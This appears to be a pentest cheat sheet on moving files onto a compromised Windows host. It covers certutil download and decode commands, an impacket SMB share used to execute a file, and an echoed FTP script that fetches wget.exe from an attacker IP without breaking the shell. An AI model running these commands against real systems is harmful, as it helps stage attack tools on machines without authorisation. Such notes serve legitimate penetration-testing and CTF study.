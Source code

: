 ## CERTUTIL

    certutil.exe -urlcache -split -f http://10.10.16.67:8000/file.txt file.blah

You may also base64 encode your file prior to download. It can then be decoded as so:

    certutil.exe -decode file.txt file.dll


## SMB (impacket)

We can use impacket to configure a simple SMB server which can be used to execute code from

    impacket-smbserver share_name /path/to/share

Once running we access via the usual method

    \\10.10.16.67\share_name\file.exe <arg>


## FTP

Most windows machines have a ftp-client included. But we can't use it interactively since that most likely would kill our shell. So we have get around that. We can however run commands from a file. So what we want to do is to echo out the commands into a text file. And then use that as our input to the ftp-client. Let me demonstrate.

On the compromised machine we echo out the following commands into a file

```text
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect to the ftp

```text
ftp -v -n -s:ftp.txt
```

Of course you need to have a ftp-server configured with the user asshat and the password to mysecretpassword.

## TFTP

Works by default on:

- **Windows XP**
- **Windows 2003**

A TFTP client is installed by default on windows machines up to Windows XP and Windows 2003. What is good about TFTP is that you can use it non-interactively. Which means less risk of losing your shell.
